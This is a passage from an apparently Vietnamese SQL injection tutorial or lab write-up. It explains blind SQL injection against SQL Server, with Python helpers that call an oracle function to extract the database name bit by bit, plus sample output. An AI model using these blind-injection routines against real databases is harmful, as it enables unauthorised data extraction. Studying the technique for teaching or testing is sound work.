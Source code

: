 2. **Lấy thông tin từ các bảng khác, ví dụ `information_schema`:**
   - Sử dụng các truy vấn phức tạp hơn như:
     ```sql
     SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'
     ```

---
# 9. Khai thác dữ liệu qua Blind SQL Injection

---

### **1. Xác định tên cơ sở dữ liệu (Database Name)**

#### **Ý tưởng:**
1. Dùng **`LEN(DB_NAME())`** để xác định độ dài tên cơ sở dữ liệu.
2. Sử dụng **`SUBSTRING(DB_NAME(), i, 1)`** để trích xuất từng ký tự trong tên cơ sở dữ liệu.

#### **Triển khai:**

**Xác định độ dài tên cơ sở dữ liệu:**
```python
def dumpNumber(q):
    length = 0
    for p in range(7):  # Duyệt qua từng bit (giới hạn 128 ký tự)
        if oracle(f"({q})&{2**p}>0"):
            length |= 2**p
    return length

db_name_length = dumpNumber("LEN(DB_NAME())")
print(f"Độ dài tên cơ sở dữ liệu: {db_name_length}")
```

**Trích xuất tên cơ sở dữ liệu:**
```python
def dumpString(q, length):
    val = ""
    for i in range(1, length + 1):  # Duyệt qua từng ký tự
        c = 0
        for p in range(7):  # Duyệt qua từng bit của ký tự
            if oracle(f"ASCII(SUBSTRING(({q}),{i},1))&{2**p}>0"):
                c |= 2**p
        val += chr(c)
    return val

db_name = dumpString("DB_NAME()", db_name_length)
print(f"Tên cơ sở dữ liệu: {db_name}")
```

#### **Kết quả:**
```plaintext
Độ dài tên cơ sở dữ liệu: 8
Tên cơ sở dữ liệu: digcraft
```

---